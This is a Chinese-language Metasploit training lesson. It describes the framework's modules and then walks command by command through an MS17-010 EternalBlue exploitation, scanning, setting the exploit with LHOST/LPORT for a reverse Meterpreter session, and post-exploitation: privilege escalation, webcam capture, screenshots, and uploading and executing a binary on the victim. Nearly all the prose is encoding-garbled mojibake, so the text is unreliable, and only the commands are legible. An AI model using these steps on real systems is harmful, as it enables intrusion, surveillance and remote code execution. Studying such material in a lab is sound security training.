# 课程P50：第14天：Metasploit渗é€åŸºç¡€åŠå®æ“ 🔧

在本节课中，我们将è¦å­¦ä¹ æ¸—é€æµ‹è¯•æ¡†æ¶Metasploit的基础知识，包括其目录结æ„ã€æ ¸å¿ƒæ¨¡å—ã€åŸºæœ¬æ“作æµç¨‹ï¼Œå¹¶é€šè¿‡ç»å…¸çš„MS17-010（永æ’之è“）æ¼æ´æ”»å‡»å®ä¾‹ï¼Œæ¼”示如何利用Metasploitè·å–目标主机的Meterpreter会è¯ï¼Œå¹¶è¿›è¡Œåˆæ­¥çš„å渗é€æ“作。

---

## 概述 📖




Metasploit是一个高度模å—化的开æºæ¸—é€æµ‹è¯•æ¡†æ¶ï¼Œå®ƒé›†æˆäº†å¤§é‡å·²çŸ¥æ¼æ´çš„利用脚本（Exploit）ã€æ”»å‡»è½½è·ï¼ˆPayload）以åŠè¾…助工具。使用Metasploit，测试者å¯ä»¥è‡ªåŠ¨åŒ–执行å¤æ‚的攻击æµç¨‹ï¼Œä¾‹å¦‚æ¼æ´æ‰«æã€åˆ©ç”¨ã€æƒé™æå‡å’ŒæŒä¹…化æ§åˆ¶ï¼Œè€Œæ— éœ€æ·±å…¥ç†è§£æ¯ä¸ªæ¼æ´çš„底层细节或手动编写利用代ç ã€‚本节课旨在帮助åˆå­¦è€…ç†è§£Metasploit的基本æ¶æ„和使用方法。

---


## Metasploit简介ä¸å®‰è£… 🛠ï¸

Metasploit（简称MSF）是最å—欢è¿çš„渗é€æµ‹è¯•å·¥å…·ä¹‹ä¸€ã€‚在Kali Linux中通常预装，其安装路径一般为 `/usr/share/metasploit-framework/`。



**查看版本ä¸æ›´æ–°ï¼š**
```bash
msfconsole -v
```
若需更新，å¯å…ˆæ›´æ–°APTæºï¼Œç„¶å执行安装命令：
```bash
apt-get update
apt-get install metasploit-framework
```
也å¯ä»¥ä»GitHub官方仓库å•ç‹¬ä¸‹è½½æ›´æ–°çš„模å—文件，放入对应的 `modules` 目录。






---





## 目录结æ„解æ ğŸ“





了解Metasploit的目录结æ„有助äºæˆ‘们更好地使用它。核心目录如下：


以下是å„主è¦ç›®å½•åŠå…¶åŠŸèƒ½çš„简è¦è¯´æ˜ï¼š




*   **data**: 存储二进制文件ã€å¯ç¼–辑文件等数æ®ã€‚
*   **documentation**: 存放框æ¶çš„文档。
*   **lib**: 核心库文件。
*   **plugins**: æ’件目录。
*   **scripts**: 脚本目录。
*   **tools**: 包å«å„ç§ç‹¬ç«‹å·¥å…·ã€‚
*   **modules**: **最é‡è¦çš„目录**，包å«æ‰€æœ‰åŠŸèƒ½æ¨¡å—。

---



### 核心模å—目录（modules）




`modules` 目录下包å«ä¸ƒä¸ªå­ç›®å½•ï¼Œåˆ†åˆ«å¯¹åº”ä¸åŒçš„功能：


以下是å„模å—ç±»å‹çš„详细说æ˜ï¼š

*   **auxiliary（辅助模å—）**: 用äºä¿¡æ¯æ”¶é›†ã€æ¼æ´æ‰«æã€å¯†ç çˆ†ç ´ç­‰è¾…助性任务。
*   **exploits（æ¼æ´åˆ©ç”¨æ¨¡å—）**: 包å«é’ˆå¯¹å„ç§ç³»ç»Ÿå’Œåº”用æ¼æ´çš„利用脚本。
*   **payloads（攻击载è·æ¨¡å—）**: 定义攻击æˆåŠŸå希望在目标系统执行的代ç ï¼Œå¦‚åå¼¹Shell。
*   **post（å渗é€æ¨¡å—）**: 在è·å–目标系统访问æƒé™å，用äºè¿›è¡Œæƒé™æå‡ã€å†…网æ¢æµ‹ã€ä¿¡æ¯æœé›†ç­‰åç»­æ“作。
*   **encoders（编ç å™¨æ¨¡å—）**: 对Payload进行编ç ï¼Œä»¥ç»•è¿‡æ€æ¯’软件（AV）或入侵检测系统（IDS）的检测。
*   **nops（空指令模å—）**: 生æˆç©ºæŒ‡ä»¤ï¼ˆNOP sled），用äºæ高æ¼æ´åˆ©ç”¨çš„稳定性。
*   **evasion（规é¿æ¨¡å—）**: 生æˆå…æ€ï¼ˆAntivirus Evasion）的Payload。



---



## å¯åŠ¨ä¸åŸºç¡€æ“作 âš™ï¸

上一节我们介ç»äº†Metasploit的目录结æ„，本节中我们æ¥çœ‹çœ‹å¦‚何å¯åŠ¨å®ƒå¹¶è¿›è¡ŒåŸºç¡€æ“作。


**å¯åŠ¨ä¸æ•°æ®åº“åˆå§‹åŒ–：**
```bash
# åˆå§‹åŒ–æ•°æ®åº“（å¯é€‰ï¼Œä½†ä¾¿äºä¿å­˜æ‰«æ结æœï¼‰
msfdb init
# å¯åŠ¨MSFæ§åˆ¶å°
msfconsole
```
å¯åŠ¨å，å¯ä»¥ä½¿ç”¨ `db_status` 命令检查数æ®åº“è¿æ¥ï¼Œä½¿ç”¨ `workspace` 命令管ç†å·¥ä½œåŒºã€‚

**ä¿¡æ¯æ”¶é›†ç¤ºä¾‹ï¼š**
在MSFconsole中，å¯ä»¥ç›´æ¥ä½¿ç”¨é›†æˆçš„Nmap进行扫æ，结æœä¼šè‡ªåŠ¨å­˜å…¥æ•°æ®åº“。
```bash
db_nmap -sS 192.168.1.0/24
```
也å¯ä»¥ä½¿ç”¨è¾…助模å—进行扫æ，例如使用SYNåŠå¼€æ‰«æ：
```bash
use auxiliary/scanner/portscan/syn
show options
set RHOSTS 192.168.1.100
set THREADS 20
run
```


---




## å®æˆ˜ï¼šåˆ©ç”¨MS17-010æ¼æ´æ”»å‡» ğŸ¯

我们以ç»å…¸çš„“永æ’之è“â€ï¼ˆMS17-010）æ¼æ´ä¸ºä¾‹ï¼Œæ¼”示完整的Metasploit攻击æµç¨‹ã€‚


**第一步：æœç´¢å¹¶æ£€æµ‹æ¼æ´**
```bash
search ms17-010
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.2.131
run
```
如æœç›®æ ‡å­˜åœ¨æ¼æ´ï¼Œæ¨¡å—会æ示 `Host is likely VULNERABLE to MS17-010!`。




**第二步：选择利用模å—并设置å‚æ•°**
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
# 设置目标IP
set RHOST 192.168.2.131
# 设置监å¬IP（攻击机IP）和端å£
set LHOST 192.168.2.128
set LPORT 4444
```
**第三步：执行攻击**
```bash
exploit
```
攻击æˆåŠŸå，会得到一个 **Meterpreter** 会è¯ã€‚Meterpreter是一个功能强大的å渗é€å·¥å…·ã€‚





---



## Meterpreterå渗é€åŸºç¡€ 🕵ï¸â™‚ï¸

æˆåŠŸè·å–Meterpreter会è¯æ˜¯æ¸—é€æµ‹è¯•çš„关键一步。在Meterpreter中，输入 `?` 或 `help` å¯ä»¥æŸ¥çœ‹æ‰€æœ‰å¯ç”¨å‘½ä»¤ã€‚


**常用Meterpreter命令分类：**





以下是部分核心功能的命令示例：




*   **会è¯ç®¡ç†**: `background`（会è¯æ”¾åˆ°åå°ï¼‰ï¼Œ `sessions -i <ID>`（é‡æ–°è¿›å…¥ä¼šè¯ï¼‰ã€‚
*   **系统命令**: `sysinfo`（查看系统信æ¯ï¼‰ï¼Œ `getuid`（查看当å‰ç”¨æˆ·æƒé™ï¼‰ã€‚
*   **文件系统**: `ls`, `cd`, `download`, `upload`。
*   **æƒé™æå‡**: `getsystem`。
*   **网络命令**: `ipconfig`, `portfwd`（端å£è½¬å‘）。
*   **æ‘„åƒå¤´/截å±**: `webcam_list`, `webcam_snap`, `screenshot`。
*   **è·å–Shell**: `shell`（进入目标系统的CMD）。

**示例：文件上传ä¸æ‰§è¡Œ**
```bash
# 将本地文件上传到目标C盘
upload /path/to/local/exp.exe C:\\
# 进入目标系统的Shell
shell
# 在Shell中执行上传的程åº
C:\\exp.exe
```


---

## 总结 ğŸ“




本节课中我们一起学习了Metasploit渗é€æµ‹è¯•æ¡†æ¶çš„基础知识。我们ä»æ¡†æ¶çš„简介和目录结æ„开始，了解了其核心模å—的组æˆã€‚éšå，我们学习了如何å¯åŠ¨MSFconsole并进行基本的信æ¯æ”¶é›†æ“作。最å，通过一个完整的MS17-010æ¼æ´æ”»å‡»å®ä¾‹ï¼Œæˆ‘们å®è·µäº†ä»æ¼æ´æ‰«æã€åˆ©ç”¨åˆ°è·å–Meterpreter会è¯ï¼Œå¹¶è¿›è¡Œç®€å•å渗é€æ“作的完整æµç¨‹ã€‚




è®°ä½ï¼ŒMetasploit功能æ其丰富，本节课仅触åŠå†°å±±ä¸€è§’。è¦ç†Ÿç»ƒæŒæ¡ï¼Œå¿…须勤加练习，在å®é™…æ“作中é‡åˆ°é—®é¢˜å¹¶è§£å†³ï¼Œæ‰èƒ½çœŸæ­£æå‡æŠ€èƒ½ã€‚课å请务必在å®éªŒç¯å¢ƒä¸­å¤ç°æ•´ä¸ªæµç¨‹ï¼Œå¹¶å°è¯•æ¢ç´¢Meterpreter的更多功能。